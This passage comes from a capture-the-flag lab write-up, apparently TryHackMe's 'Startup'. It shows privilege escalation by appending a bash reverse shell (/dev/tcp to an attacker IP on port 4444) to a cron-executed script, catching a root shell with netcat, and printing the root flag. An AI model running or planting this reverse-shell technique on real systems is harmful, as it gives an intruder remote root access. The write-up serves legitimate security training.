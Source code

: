 Yes we can, let's try to put a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) in there :

```
lennie@startup:/etc$ cat print.sh 
#!/bin/bash
echo "Done!"
bash -c 'exec bash -i &>/dev/tcp/10.8.162.183/4444 <&1'
```

Now we open our [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener, then wait for the cronjob to be executed automatically :

```
lennie@startup:/etc$ ./print.sh
Done!
```

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Startup]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.68.10] 33218
bash: cannot set terminal process group (1595): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# cat /root/root.txt
cat /root/root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```

And we have the **root flag**.